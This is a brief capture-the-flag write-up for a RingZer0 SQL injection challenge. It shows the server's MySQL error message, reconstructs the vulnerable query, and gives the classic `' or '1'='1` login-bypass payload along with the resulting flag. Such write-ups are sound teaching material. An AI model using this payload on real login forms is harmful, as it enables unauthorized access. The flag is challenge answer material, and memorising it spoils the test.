 # Most basic SQLi pattern

## Description

https://ringzer0team.com/challenges/1

## Solution

By submitting `test'` we receive the following error message:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''test'' AND password = ''' at line 1
```

This tells us the SQL statement server side looks like:

```
SELECT ... FROM ... WHERE username='$username' AND password='$password'
```

Single quote are not escaped. We are able to log using as a username `test' or '1'='1` and as a password an empty value:

```
SELECT ... FROM ... WHERE username='test' or '1'='1' AND password=''
```

|Field  | Value |
| ------------- | ------------- |
|username|whatever' or '1'='1|
|password|/* Any value, does not matter */|

And we obtain the Flag `FLAG-238974289383274893`